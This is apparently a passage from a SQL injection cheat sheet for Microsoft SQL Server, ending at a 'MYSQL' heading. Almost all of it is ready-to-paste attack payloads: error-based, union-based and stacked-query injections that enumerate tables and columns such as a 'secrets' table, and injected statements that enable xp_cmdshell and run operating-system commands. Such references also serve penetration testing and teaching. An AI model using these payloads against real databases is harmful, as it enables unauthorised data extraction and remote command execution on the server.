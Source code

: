 #### List Tables:
Normal
```sql
select * from app.information_schema.tables;
```
Error based`
```sql
cast((SELECT TABLE_NAME FROM exercise.information_schema.tables ORDER BY name OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY) as integer)
```
Union Based
```sql
' UNION SELECT TABLE_NAME, NULL FROM information_schema.tables --
```
Stacked Queries
```sql
; SELECT * FROM information_schema.tables; --
```
#### List columns

Normal
```sql
select COLUMN_NAME, DATA_TYPE from app.information_schema.columns where TABLE_NAME = 'menu';
```
Error based
```sql
cast((SELECT+column_name+FROM+exercise.information_schema.columns+where+table_name+%3d+'secrets'+ORDER+BY+name+OFFSET+0+ROWS+FETCH+NEXT+1+ROWS+ONLY)+as+integer)
```
Union Based
```sql
' UNION SELECT COLUMN_NAME, NULL FROM information_schema.columns WHERE TABLE_NAME = 'table_name' --
```
Stacked Queries:
```sql
; SELECT COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'table_name'; --
```

#### Command Execution

**Normal**

To use `xp_cmdshell` for command execution, it first needs to be enabled by a user with administrative privileges:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
After enabling, you can execute system commands like so:
```sql
EXEC xp_cmdshell 'your_command_here';
```

**SQLi**
Just like before, you will need to enable the privs first, sometimes they may be enabled by default:
```sql
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```
```sql
'; EXEC xp_cmdshell 'your_command_here'; --
```
## MYSQL

